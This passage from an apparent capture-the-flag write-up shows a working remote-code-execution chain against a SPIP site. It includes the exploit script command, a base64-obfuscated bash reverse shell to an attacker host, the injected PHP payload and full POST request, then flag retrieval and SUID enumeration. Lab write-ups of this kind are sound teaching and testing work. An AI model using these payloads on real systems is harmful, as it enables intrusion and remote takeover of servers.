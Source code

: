 ```
❯ python3 spip-exploit.py -u http://10.10.207.110/ -c 'echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ=="| base64 -d | bash' -v
[-] Unable to find Anti-CSRF token
[+] Execute this payload : s:109:"<?php system('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ=="| base64 -d | bash'); ?>";
```

Sent the following request : 

```
POST /spip/spip.php?page=spip_pass&lang=en HTTP/1.1
Host: 10.10.207.110
Content-Length: 354
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.207.110
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.207.110/spip/spip.php?page=spip_pass&lang=en
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=spip_pass&lang=en&formulaire_action=oubli&formulaire_action_args=AKWms4U6q36PZ5anxAntOw96PbQ5RFxIFrvJYArFdIBdXpBrKWZ37WWgXOTXQ0A7YhaGg63PB3rY%2FwwNM0PLZgyIWBTRpmyAMQ%3D%3D&formulaire_action_sign=&oubli=abc%40xyz.com&oubli=s:109:"<?php system('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ=="| base64 -d | bash'); ?>";ba&nobot=
```

Reverse shell obtained as the `www-data` user.

I end up in the think user's home directory and am able to read the user flag.

```
www-data@41c976e507f8:/home/think$ cat user.txt
cat user.txt
fa229046d44eda6a3598c73ad96f4ca5 
```

---
## **Post-Exploitation**

wget is not present on the system and hence linpeas cannot be moved over.

Manually checked for SUID binaries but no suspicious ones detected : 

```
www-data@41c976e507f8:/$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/umount
```
